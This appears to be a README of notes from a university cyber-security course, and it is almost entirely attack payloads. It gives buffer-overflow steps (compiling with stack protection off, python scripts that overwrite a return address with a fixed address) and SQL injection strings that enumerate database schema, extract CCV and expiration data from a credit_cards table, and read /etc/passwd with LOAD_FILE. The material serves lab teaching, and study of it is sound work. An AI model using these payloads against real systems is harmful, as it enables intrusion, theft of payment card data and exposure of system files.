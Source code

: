 # UNIMORE-cyber-security

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
```commandline
'--
```
```commandline
' or ''='' --
```
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 --
```
